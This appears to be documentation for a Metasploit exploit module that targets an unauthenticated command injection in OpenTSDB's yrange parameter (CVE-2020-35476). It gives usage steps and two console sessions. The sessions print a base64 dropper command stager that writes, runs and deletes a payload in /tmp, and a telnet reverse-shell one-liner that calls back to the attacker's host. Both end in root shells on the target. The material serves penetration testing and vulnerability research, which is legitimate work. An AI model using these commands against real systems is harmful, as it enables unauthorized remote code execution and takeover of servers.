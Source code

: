 ## Vulnerable Application
This module exploits an unauthenticated command injection vulnerability in the yrange parameter
in OpenTSDB through 2.4.0 (CVE-2020-35476) in order to achieve unauthenticated remote code execution as the root user.

The module first attempts to obtain the OpenTSDB version via the api. If the version is 2.4.0 or lower,
the module performs additional checks to obtain the configured metrics and aggregators.
It then randomly selects one metric and one aggregator and uses those to instruct the target server to plot a graph.
As part of this request, the yrange parameter is set to the payload, which will then be executed by the target if the latter is vulnerable.

This module has been successfully tested against OpenTSDB version 2.3.0.

## Installation Information
OpenTSDB is open source software. Vulnerable releases are available [here](https://github.com/OpenTSDB/opentsdb/releases).
Documentation and installation instructions are available [here](http://opentsdb.net/docs/build/html/index.html).

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/opentsdb_yrange_cmd_injection`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set SRVHOST [IP]`
6. Do: `exploit`

## Options
### TARGETURI
The base path to OpenTSDB. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Automatic (Unix In-Memory)
1   Automatic (Linux Dropper)
```

## Scenarios
### OpenTSDB 2.3.0 - Linux target
```
msf6 exploit(linux/http/opentsdb_yrange_cmd_injection) > options

Module options (exploit/linux/http/opentsdb_yrange_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.1.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      4242             yes       The target port (TCP)
   SRVHOST    10.10.1.30       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0
                                         .0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to OpenTSDB
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.1.30       yes       The listen address (an interface may be specified)
   LPORT  1312             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)


msf6 exploit(linux/http/opentsdb_yrange_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.1.30:1312
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is OpenTSDB version 2.3.0
[*] Identified 25 configured metrics. Using metric MessagePrePublishingEvents.min
[*] Identified 31 configured aggregators. Using aggregator sum
[*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1toCgoHJWgCAAUgieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/XeJKe.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/JIulg' < '/tmp/XeJKe.b64' ; chmod +x '/tmp/JIulg' ; '/tmp/JIulg' & sleep 2 ; rm -f '/tmp/JIulg' ; rm -f '/tmp/XeJKe.b64'"]
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (1017704 bytes) to 10.10.1.1
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 4 opened (10.10.1.30:1312 -> 10.10.1.1:47720) at 2022-11-24 19:27:06 +0000

meterpreter > getuid
Server username: root
```

### OpenTSDB 2.3.0 - Unix target
```
msf6 exploit(linux/http/opentsdb_yrange_cmd_injection) > options

Module options (exploit/linux/http/opentsdb_yrange_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.1.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      4242             yes       The target port (TCP)
   SRVHOST    10.10.1.30       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0
                                         .0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to OpenTSDB
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.1.30       yes       The listen address (an interface may be specified)
   LPORT  1337             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)


msf6 exploit(linux/http/opentsdb_yrange_cmd_injection) > run

[+] sh -c '(sleep 3851|telnet 10.10.1.30 1337|while : ; do sh && break; done 2>&1|telnet 10.10.1.30 1337 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 10.10.1.30:1337
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is OpenTSDB version 2.3.0
[*] Identified 25 configured metrics. Using metric MessagePrePublishingEvents.mean_rate
[*] Identified 31 configured aggregators. Using aggregator max
[*] Executing the payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo q08IVzJKPKz8soea;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "q08IVzJKPKz8soea\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 3 opened (10.10.1.30:1337 -> 10.10.1.1:52370) at 2022-11-24 19:24:06 +0000

id
uid=0(root) gid=0(root) groups=0(root)
```
